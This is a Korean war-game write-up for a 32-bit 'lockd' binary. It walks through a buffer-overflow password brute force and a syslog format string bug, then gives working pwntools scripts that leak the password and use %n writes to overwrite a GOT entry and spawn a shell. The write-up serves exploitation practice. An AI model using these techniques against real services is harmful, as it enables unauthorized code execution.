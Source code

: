 ```yaml
---
layout: post
title: "lockd"
comments : true
category : War Game
---
```


# 문제
***

lockd 바이너리의 checksec 결과는 다음과 같다.
```
CANARY    : ENABLED
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

file 명령어 결과는 다음과 같다.
```
lockd: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=784b63a128e6fe76512ae058e30be767450c8e7a, stripped
```

바이너리 코드

__sub_8048A7D()__
```
int sub_8048A7D()
{
...
  v7 = __readgsdword(0x14u);
  stream = fopen("password", "rb");
  fread(&ptr, 1u, 0x10u, stream);
  fclose(stream);
  dword_804A0A4 = *(_DWORD *)&ptr;
  dword_804A0A8 = v4;
  dword_804A0AC = v5;
  dword_804A0B0 = v6;
  printf("Input master key > ");
  read(0, &buf, 0x28u);
  return memcmp(&ptr, &buf, 0x10u);
}
```

__sub_8048A7D()__의 read 함수에서 buffer overflow 취약점이 존재한다. 그리고 bof를 통해서 ptr 영역에 overwrite함으로써 password를 알 수 있다. 방법은 다음과 같다.

(X는 내가 넣은 특정한 문자를 의미하고 ?는 0x00에서 0xff 사이의 임의의 값을 의미한다. 그리고 Y는 fread를 통해 ptr에 읽어온 password의 값이다.)

1. read함수를 통해서 buf의 앞 16바이트에 XXXX XXXX XXXX XXX?를 쓰고 bof를 통해서 ptr을 XXXX XXXX XXXX XXXY와 같이 구성한다.
?에 0x00부터 0xff까지 넣어보면서 memcmp의 return 값이 0일 때를 찾는다. 이를 통해서 Y 값을 알 수 있다.
2. 동일한 방식으로 buf의 앞 16바이트에 XXXX XXXX XXXX XX?Y를 쓰고 ptr을 XXXX XXXX XXXX XXYY와 같이 구성하면 뒤에서 두 번째에 있는 Y값을 알아낼 수 있다.
3. 이 방식을 반복함으로써 password를 알 수 있다.

__sub_804897A()__
```
signed int sub_804897A()
{
  printf("Input master key > ");
  read(0, fmt, 0x14u);
  if ( memcmp(&dword_804A0A4, fmt, 0x10u) )
    return -1;
  sprintf(fmt, "./lock UNLOCK %d %d", dword_804A4C0, dword_804A0A0);
  system(fmt);
  printf("Your name > ");
  read(0, &unk_804A2C0, 0x190u);
  sprintf(fmt, "UNLOCK %d-%d by %s", dword_804A4C0, dword_804A0A0, &unk_804A2C0);
  syslog(0xD, fmt);
  return 0;
}
```

```void syslog(int priority, const char *format, ...);``` 
syslog 함수는 두 번쨰 인자로 const char *format을 받는다. 그런데 __sub_804897A()__, __sub_8048877()__ 에서 syslog 함수를 ```syslog(0xD, fmt);``` 와 같이 사용하기 때문에 fsb 취약점이 존재한다. 

## exploit 방법
1.  __sub_8048A7D()__에 존재하는 취약점을 이용해서 password를 알아낸다. (이를 통해서 __sub_804897A()__의 if문을 통과할 수 있다.)
2. fsb를 이용해서 __sub_804897A()__의 sfp에 sprintf의 got값을 넣는다. (앞의 read에서 fmt에 20바이트를 넣기 때문에 password 뒤에 ""\x0a"*2 + "sh" (뒤에 null 존재)을 넣고 바로  system을 호출하면 쉘을 딸 수 있다. 그런데 sprintf에서 17바이트를 출력한 후에 \x00을 넣어버려서 ```system("sh")```가 호출되지 않는다. "\x0a"+"sh" 앞에 null이 들어가는 것을 막기 위해서 sprintf 대신 printf를 호출하게 하려고 한다.)
3. fsb를 이용해서 sprintf_got에 printf_plt 주소를 덮어쓴다.
4. fmt를 password + "\x0a" + "sh" + "\x00" 으로 구성하면 system(fmt)에서 쉘을 딸 수 있다.

# 풀이
***

__leak_pw.py__
```
#!/usr/bin/python

from pwn import *

file_path="/home/lockd/lockd"

def sd_key(p,key):
	p.recvuntil("floor > ")
        p.sendline("1")
        p.recvuntil("number > ")
        p.sendline("1")
        p.recvuntil("key > ")
        p.send(key)
	p.recv()
	p.close()

masterkey="A"*16
masterkey=list(masterkey)

for i in range(16):
	for j in range(0x100):
		dummy="A"*4
		key="A"*(15-i)
		masterkey[15-i]=p32(j)[0]

		try:
			p=process(file_path)
			sd_key(p,''.join(masterkey)+dummy+key)
		except:
			p.close()
		else:
			break

print ''.join(masterkey)
```

__exploit.py__
```
#!/usr/bin/python

from pwn import *

def sel_2(pay):
	p.recvuntil("> ")
	p.sendline("2")
	p.recvuntil("key > ")
	p.send(password+"\x0a"+"sh"+"\x00")
	p.recvuntil("name > ")
	p.send(pay)

password="c39f30e348c07297"

file_path="/home/lockd/lockd"
p=process(file_path)

p.recvuntil("floor > ")
p.sendline("1")
p.recvuntil("number > ")
p.sendline("1")
p.recvuntil("key > ")
p.send(password)

sprintf_got=0x804a03c
printf_plt=0x8048570

name="%"+str(sprintf_got-14)+"d"+"%9$n"
sel_2(name)

name2="%"+str(printf_plt-14)+"d"+"%21$n"
sel_2(name2)

p.recvuntil("> ")
p.sendline("2")
p.recvuntil("key > ")
p.send(password+"\x0a"+"sh"+"\x00")

p.interactive()
```

# 알게 된 것
***
1. gdb에서 디버깅 하다가 자식 프로세스 생기면 (여기서는 syslog에 의해서 생김) 동작이 멈춰버리니까 set follow-fork parent (child)를 꼭 해주자.

2. ```int printf ( const char * format, ... );```나 ```void syslog(int priority, const char *format, ...);``` 처럼 인자로 format 지정 문자열이 존재할 때 ```printf(fsb);```, ```syslog(13,fsb);```와 같이 구성하면 format string bug가 존재한다.
(format 지정 문자열 뒤에 인자가 없는 경우, or 서식 문자보다 뒤에 있는 인자의 수가 적은 )

3. ```void syslog(int priority, const char * format);```
- syslog 함수는 syslogd 데몬에게 메세지를 전송한다. (시스템에서 로그 메세지를 처리하기 위해서 제공하는 표준 인터페이스)
- syslogd 데몬은 받은 메세지를 /etc/syslog.conf에 설정된 규칙에 따라서 파일에 기록, 화면에 출력, 또는 다른 호스트에 있는 또다른 syslogd 데몬에게 포워딩한다.
- priority는 priority (메세지의 우선순위)와 facility (메세지를 발생시킨 프로그램의 종류 대한 flag)의 OR 연산을 통해 만들어짐

<br/>
4. (password를 알아내는 방법과 같은) 다양한 방법을 생각 해보자???


